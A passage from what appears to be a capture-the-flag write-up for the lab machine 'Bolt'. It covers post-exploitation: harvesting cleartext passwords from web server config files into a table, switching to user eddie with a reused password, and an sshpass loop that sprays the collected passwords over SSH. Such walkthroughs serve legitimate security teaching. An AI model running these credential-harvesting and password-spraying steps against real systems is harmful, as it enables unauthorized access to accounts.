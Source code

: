 There are two users with homedirs on the system, and www-data can’t access either:

```

www-data@bolt:/home$ ls -l
total 8
drwxr-x--- 15 clark clark 4096 Feb 25  2021 clark
drwxr-x--- 16 eddie eddie 4096 Aug 26 23:55 eddie
www-data@bolt:/home$ cd clark
bash: cd: clark: Permission denied
www-data@bolt:/home$ cd eddie
bash: cd: eddie: Permission denied

```

#### DBs

A common place to check for creds is in the various config files for the webservers. There are four identified servers here. The first three are easy to find. passbolt required some poking around at NGINX configs in `/etc/nginx/sites-enabled`:

| Server | Web Root | config file | Password(s) |
| --- | --- | --- | --- |
| bolt.htb | `/var/www/dev` | `config.py` | dXUUHSW9vBpH5qRB kreepandcybergeek |
| demo.bolt.htb | `/var/www/demo` | `config.py` | dXUUHSW9vBpH5qRB kreepandcybergeek |
| RoundCube | `/var/www/roundcube` | `config/config.inc.php` | WXg5He2wHt4QYHuyGET |
| passbolt | `/etc/passbolt`\* | `passbolt.php` | rT2;jW7<eY8!dX8}pQ8% |

\*The actual webroot is `/usr/share/php/passbolt/webroot`, but `/etc/passbolt` is also included, and it has the config file.

### su / SSH

I tried a bunch of these passwords with both eddie and clark, and the combination of eddie / rT2;jW7<eY8!dX8}pQ8% worked:

```

www-data@bolt:/etc/nginx/sites-enabled$ su - eddie
Password: 
eddie@bolt:~$

```

I could also do this in a loop over SSH:

```

for u in clark eddie; do 
  for p in $(cat passwords); do 
    sshpass -p "$p" ssh ${u}@10.10.11.114 -f 'exit' && 
    echo "Success! User: $u Pass: $p"; 
  done; 
done

```
